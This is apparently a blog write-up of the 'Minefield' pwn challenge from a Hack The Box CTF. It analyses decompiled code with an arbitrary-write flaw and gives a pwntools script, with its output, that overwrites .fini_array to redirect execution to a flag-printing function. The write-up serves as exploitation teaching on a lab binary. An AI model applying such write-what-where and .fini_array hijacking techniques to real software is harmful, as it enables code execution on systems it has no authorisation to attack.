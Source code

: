 ```yaml
--- 
layout: post 
title:  "[CA HTB] Minefield"
date: "2021-04-25" 
tags: [pwn, .fini_array, CA-HTB] 
---
```


I didn't solve this challenge in the race, but I only understood how to solve it after reading a writeup and understanding how the ``` .fini ``` and the ``` .fini_array ``` work.

This challenge is very easy but you need to know what are the sections  ``` .fini ``` and ``` .fini_array ```.


```bash
In [1]: from pwn import *

In [2]: context.binary = elf = ELF('./minefield')
[*] '/home/eurus/Documents/minefield/minefield'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
We can see here the protection enabled in this elf. Important for this challege are No RELRO and No PIE.

We can start to analyze what the program does:

```bash
┌──(eurus㉿ctf)-[~/Documents/minefield]
└─$ ./minefield 
Are you ready to plant the mine?
1. No.
2. Yes, I am ready.
> 2
We are ready to proceed then!
Insert type of mine: 2
Insert location to plant: 3
We need to get out of here as soon as possible. Run!
zsh: segmentation fault  ./minefield
```
So we have two user input if we respond at the first question that we are ready to plat a mine. And after that we give this input we have a segmentation fault.

Analyzing this elf with a disassembler we can see that we have a function called ``` _ ``` that cat the flag from the server, so we dont neeto to spawn a shell but we need just to redirect the flow of the program to this function.

```c
unsigned __int64 _(){
  size_t s_len; // rax
  unsigned __int64 canary; // [rsp+8h] [rbp-8h]

  canary = __readfsqword(0x28u);
  s_len = strlen(aMissionAccompl);
  write(1, aMissionAccompl, s_len);
  system("cat flag*");
  return __readfsqword(0x28u) ^ canary;
}
```

In the program there are a funtion interesting. This id the ``` mission ``` function. It take 2 input (type of mine and location plant), it use ``` strtoull ``` The strtoul() function converts the initial part of the string in nptr to an unsigned long int value according to the given base, which must be between 2 and 36 inclusive, or be the special value 0. So this funtion convert the value of the sting into ull value. 

We can see that our input is taken by the r function, this function read from stdin only 9 bytes into nptr and so this mean that our input is only 9 char

```c
unsigned __int64 mission(){
  _QWORD *v1; // [rsp+0h] [rbp-30h]
  char nptr[10]; // [rsp+14h] [rbp-1Ch] BYREF
  char v3[10]; // [rsp+1Eh] [rbp-12h] BYREF
  unsigned __int64 canary; // [rsp+28h] [rbp-8h]

  canary = __readfsqword(0x28u);
  printf("Insert type of mine: ");
  r(nptr);
  ptr_write = (_QWORD *)strtoull(nptr, 0LL, 0);
  printf("Insert location to plant: ");
  r(value_write);
  puts("We need to get out of here as soon as possible. Run!");
  *ptr_write = strtoull(value_write, 0LL, 0);
  return __readfsqword(0x28u) ^ canary;
}

unsigned __int64 __fastcall r(void *nptr){
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  canary = __readfsqword(0x28u);
  read(0, nptr, 9uLL);
  return __readfsqword(0x28u) ^ canary;
}

```


So the mission function do this:
1. take 9 char as input 
2. convert this input into a value ull named ``` ptr_write ```
3. take another input of 9 char as imput
4. convert this input into a value ull named ``` value_write ```
5. finally writes ``` value_write ``` inside the memory at address ``` ptr_write ```

**So we can write in any position of the program what we want... at least seems**

My first thing was owerwrite the GOT for ``` __stack_chk_fail ``` with the address of ``` _ ``` and attemp to modify the canary in order to call the function ``` __stack_chk_fail ``` but we cannot modify the canary, the read are *safe* as far as this program can be described as safe!

Second thought: overwrite the return address in the stack that we knoe because PIE is disabled, BUT ``` rip ``` is located on ``` 0x7fffffffdf78 ``` address inside mission function and we can insert only 9 characters so It's impossible. 

Here i was stuck. But then reading the solution I learned something new. 

```bash
.init	00000000004006C0	00000000004006D7	R	.	X	.	L	dword	0004	public	CODE	64	FFFFFFFFFFFFFFFF	FFFFFFFFFFFFFFFF	000F	FFFFFFFFFFFFFFFF	FFFFFFFFFFFFFFFF
.init_array	0000000000601070	0000000000601078	R	W	.	.	L	qword	000B	public	DATA	64	FFFFFFFFFFFFFFFF	FFFFFFFFFFFFFFFF	000F	FFFFFFFFFFFFFFFF	FFFFFFFFFFFFFFFF
.fini	0000000000400CA4	0000000000400CAD	R	.	X	.	L	dword	0007	public	CODE	64	FFFFFFFFFFFFFFFF	FFFFFFFFFFFFFFFF	000F	FFFFFFFFFFFFFFFF	FFFFFFFFFFFFFFFF
.fini_array	0000000000601078	0000000000601080	R	W	.	.	L	qword	000C	public	DATA	64	FFFFFFFFFFFFFFFF	FFFFFFFFFFFFFFFF	000F	FFFFFFFFFFFFFFFF	FFFFFFFFFFFFFFFF
```

inside the binary we have this two segment. 
>The .init and .fini sections have a special purpose. If a function is placed in the .init section, the system will execute it before the main function. Also the functions placed in the .fini section will be executed by the system after the main function returns.

SO we can overwrite the ``` .fini_aray ``` with the address of the function ``` _ ``` and when pte program return correctly it will execute our function! lets see

```bash
In [24]: p = elf.process()
[x] Starting local process '/home/eurus/Documents/minefield/minefield'
[+] Starting local process '/home/eurus/Documents/minefield/minefield': pid 2046

In [25]: p.sendline('2')

In [26]: p.recvuntil(': ')
Out[26]: b'Are you ready to plant the mine?\n1. No.\n2. Yes, I am ready.\n> We are ready to proceed then!\nInsert type of mine: '

In [27]: p.sendline(str(fini_arr))

In [28]: p.recvuntil(': ')
Out[28]: b'Insert location to plant: '

In [29]: p.sendline(str(hex(elf.sym['_'])))

In [30]: p.interactive()
[*] Switching to interactive mode
[*] Process '/home/eurus/Documents/minefield/minefield' stopped with exit code 0 (pid 2046)
We need to get out of here as soon as possible. Run!

Mission accomplished! ✔
HACKAPPATOI{4n0th3r_fl4g} 
[*] Got EOF while reading in interactive

```

and this is the script.

```python
from pwn import *

context.binary = elf = ELF('./minefield')

p = elf.process()

fini_arr = 0x601078

p.sendline('2')
p.recvuntil(': ')
p.sendline(str(fini_arr))
p.recvuntil(': ')
p.sendline(str(hex(elf.sym['_'])))
res = p.recvall()
log.info(str(res).split('\\n')[-2])
```




